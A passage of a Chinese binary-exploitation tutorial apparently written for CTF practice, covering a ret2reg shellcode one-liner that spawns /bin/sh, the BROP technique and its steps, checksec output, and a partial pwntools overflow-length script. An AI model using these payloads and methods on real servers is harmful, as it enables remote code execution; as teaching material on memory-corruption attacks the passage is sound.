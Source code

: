 或者使用 prel 命令：

```bash
./ret2reg $(perl -e 'printf "\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x53\x89\xe1\x31\xc0\xb0\x0b\xcd\x80" . "A"x499 ."\x73\x83\x04\x08"')
```

## BROP

### 原理

BROP 是没有对应应用程序的源代码或者二进制文件下，对程序进行攻击，劫持程序的执行流。

攻击条件：

1.  源程序必须存在栈溢出漏洞，以便于攻击者可以控制程序流程。
2.  服务器端的进程在崩溃之后会重新启动，并且重新启动的进程的地址与先前的地址一样（这也就是说即使程序有 ASLR 保护，但是其只是在程序最初启动的时候有效果）。目前 nginx, MySQL, Apache, OpenSSH 等服务器应用都是符合这种特性的。

见[https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#\_13](https://wiki.x10sec.org/pwn/linux/user-mode/stackoverflow/x86/medium-rop/#_13)

### 思路

1.  **判断栈溢出长度**，如有必要可以通过栈溢出来泄露 canaries、rbp 和返回地址
2.  寻找能够返回到 main 函数的 gadgets（通常称为 **stop\_gadget**）
3.  寻找 **brop gadgets**（例如 \_\_libc\_csu\_init 中的 gadgets），定位 pop rdi ; ret 的地址
4.  寻找 **puts 或 write 函数的 plt**，用于 leak 其它地址的值
5.  **dump plt 表**，用于 leak 所需函数的 got 地址
6.  通过 leak 到的 got 地址，**找到对应 libc 版本**，通过 libc 执行系统命令进行 **getshell**

### 利用

1、checksec:

```bash
qufeng@qufeng-virtual-machine:~/Desktop/brop$ checksec brop
[*] '/home/qufeng/Desktop/brop/brop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

64 位，只开启了 NX 堆栈保护，没有开启 canary

2、判断栈溢出长度：

可以使用之前的方法，这里使用下面脚本：

```bash
# -*- coding: utf-8 -*-
from pwn import *
from LibcSearcher import *


def GetBufferLength():
    i = 1
    while 1:
        try:
            p = process('./brop')
            p.recvuntil('WelCome my friend,Do you know password?\n')
            p.send('A' * i)
            out = p.recv()
            p.close()
            # 没有返回到 main 函数
            if not out.startswith('No password'):#startswith 用来判断返回的值以什么开头，判断回传数据
                print 'Buffer flow length:%d'%(i-1)
```